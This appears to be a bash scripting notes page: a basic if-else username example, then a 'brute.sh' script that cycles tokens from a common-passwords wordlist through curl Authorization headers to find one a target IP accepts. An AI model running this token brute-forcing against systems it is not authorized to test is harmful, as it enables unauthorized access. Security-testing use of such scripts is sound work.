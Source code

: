 # Scripts
# Basic Commands
Refs :
* <https://www.youtube.com/watch?v=LTuuMtQR1uQ&list=PLBf0hzazHTGMJzHon4YXGscxUvsFpxrZT
>
## If-else
```bash
#!/bin/bash

echo "Enter your username : "
read NAME

if [ "$NAME" = "Eliot" ];
then
  echo "Welcome back Eliot"
else
  echo "Please register"
fi
```
output
```sh
$ ./testscript.sh 
Enter your username : 
Eliot
Welcome back Eliot
```


# Useful Scripts
## Authorization Token
Bash script to read different tokens from a file and pass them to `curl` command to find out the valid token for authorization
```bash
#!/bin/bash
while read token; do
content=$(curl -s -H 'Authorization: Token '"$token" $1)
if echo "$content" | grep -qi "unauth"; then
continue
else
echo "Found token : $token"
fi
done <$2
```
output
```sh
./brute.sh 192.186.248.3 wordlists/100-common-passwords.txt
```

